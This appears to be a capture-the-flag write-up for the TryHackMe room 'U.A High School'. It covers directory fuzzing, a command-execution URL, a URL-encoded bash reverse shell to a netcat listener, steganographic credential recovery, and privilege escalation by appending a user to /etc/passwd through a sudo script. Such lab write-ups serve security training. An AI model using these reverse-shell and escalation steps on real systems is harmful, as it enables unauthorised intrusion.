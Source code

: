 # Writeup for Room "U.A High School"

This is the writeup for the box U.A High School

## 🔍 Enumeration Phase

## 1. WebSite
- The website is running on Apache.
- No useful information was found in `robots.txt`.

    ![WebSite](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/00.png)

    ![robots.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/01.png)

## 2. Fuzzing
-  **Dirbuster / Gobuster** was used to find directories and files, the following images show the results:

    ![Fuzzing](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/02.png)

> [!NOTE]
> There is a file named ```index.php``` in the ```/assets/``` directory, the content of the file was:

    ![index.php](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/03.png)

## 📡 3. Nmap Scan
- The following information was found:
  - The port 22 is open. **SSH**
  - The port 80 is open. **HTTP (Apache)**

    ![Nmap Scan](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/gotta-catch'em-all!/screenshots/04.png)

## 4. More Fuzzing 
- After performing a more extensive investigation, the software ```dirsearch``` allows us to use the command ```dirsearch -u http://<ip>/assets/index.php``` to find more directories and checks the urls for more information.

    ![dirsearch](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/05.png)

> [!NOTE]
> Dirsearch shows us a url where I can execute shell commands, the url is: ```http://<ip>/assets/index.php?cmd=whoami```

    ![cmd](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/06.png)

## 🌐🖥️ 5. WebSite - Reverse Shell
- I decided to execute a reverse shell by injecting the following command in the URL: ```bash+-c+'bash+-i+>%26+/dev/tcp/ip/4444+0>%261'```.

    ![command-01](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/07.png)

- Then, I set up a listener with: ```nc -nvlp 4444```.

    ![command-02](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/08.png)

- I started navigating backwards in the current directory and found a folder named Hidden_Content, which contains a file called passphrase.txt. Inside, there is a Base64-encoded string: ```QWxsbWlnaHRGb3JFdmVyISEhCg==```.

    ![passphrase.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/09.png)

- The passphrase decoded is: ```AllmightForEver!!!```

    ![passphrase-2.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/10.png)

- The home has the following directories : 

    ![home-directories](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/11.png)

- I have seen the first flag but I got permission denied when I try to access the file.

    ![first-flag](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/12.png)

- I to try to access by ssh with the user ```deku``` with the passphrase found before but without success.

    ![ssh-connection](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/13.png)

- I have found several images in the ```/var/www/html/assets/images/``` directory.

    ![images](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/14.png)

- I have downloaded the images :

    ![images-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/15.png)

## 🕵️‍♂️🖼️ 6. Steganography

- I have used file and binwalk to check if the image has hidden information.

    ![stegonography](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/16.png)

- I have used steghide with passphrase to extract the hidden information from the image but wihtout success.

    ![steghide](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/17.png)

- The ```oneforall.jpg```image is corrupted, I have changed the magic bytes to the following:

    ![magic-bytes](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/18.png)

- Now if I use steghide with the passphrase, I get new credentials.

    ![steghide-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/19.png)

    ![cred](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/20.png)

## 🔑 7. SSH Access

- I have used the credentials to connect to the machine:
  
    ![ssh-access](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/21.png)

- Here, I have gotten the first flag ```user.txt```

    ![user.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/22.png)

## 🐚💻🚀 8. Privilege Escalation

- I have tried to use the command ```sudo -l``` to check the privileges of the user ```deku```:

    ![sudo-l](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/23.png)

- I am going to use ```linpeas.sh``` into the machine to check vulnerabilities.

    ![linpeas-1](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/24.png)

    ![linpeas-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/25.png)

- I have checked the exploit sections: 

    ![exploits](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/26.png)

- If I look the version of the software ```pkexec``` I get the following output:

    ![pkexec](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/27.png)

> [!NOTE]
> The website used to identify the vulnerability has been:
> https://www.exploit-db.com/exploits/50689
> I can use the following vulnerability to escalate privileges: https://ine.com/blog/exploiting-pwnkit-cve-20214034

- I try this but I was not successful, I tried with ```sudo -l``` and the credentials of the user ```deku``` and I got the following output:

    ![sudo-l-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/28.png)

- The content file is :

    ![content-file](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/29.png)

- The part about exploiting the feedback.sh file to escalate privileges was quite challenging for me, and without the help of writeups to understand what it does, I wouldn't have been able to achieve it, as I wouldn’t have reached the conclusion of creating a user.

- First, I create a password using the command ```mkpasswd -m md5crypt -s```

    ![mkpasswd](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/30.png)

- After creating the password, this password need be to formated in the following way:

    ![password-format](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/31.png)

- Second, I need to execute the feedback.sh file with the following command ```sudo /opt/NewComer/feedback.sh```

    ![feedback.sh](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/32.png)

- Now if I use the command ```tail -n1 /etc/passwd```, I can see the new user created.

    ![new-user](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/33.png)

- Finally, I can do a ```su MC``` with the password

    ![su-mc](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/34.png)

- I have gotten the second flag ```root.txt``` into the home directory of the user ```MC```

    ![root.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/35.png)